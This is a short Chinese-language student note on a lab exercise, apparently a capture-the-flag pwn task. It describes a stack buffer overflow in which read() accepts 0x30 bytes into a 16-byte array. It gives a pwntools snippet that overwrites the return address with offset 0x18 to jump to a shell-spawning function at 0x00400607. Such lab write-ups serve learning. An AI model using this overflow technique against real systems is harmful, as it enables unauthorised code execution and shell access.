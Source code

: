 # lab 2
這題hen明顯就是bof

它最多讀0x30個字進去 可是陣列大小只有16個 可以bof

`y0u_c4n7_533_m3()` 跳上這個函數 就可以拿到 shell

`y0u_c4n7_533_m3()`的位置是 `0x00400607`

用gdb 追 可以發現 輸入的東西跟 main 的return addr 差了 0x18

```=
n.recvuntil('\n')

n.sendline('a'*0x18+p64(0x00400607))


n.interactive()
```
問題還是不知道 `read()` 到底要怎麼用 

看看pwntool那題 read() 還是差了 `&`
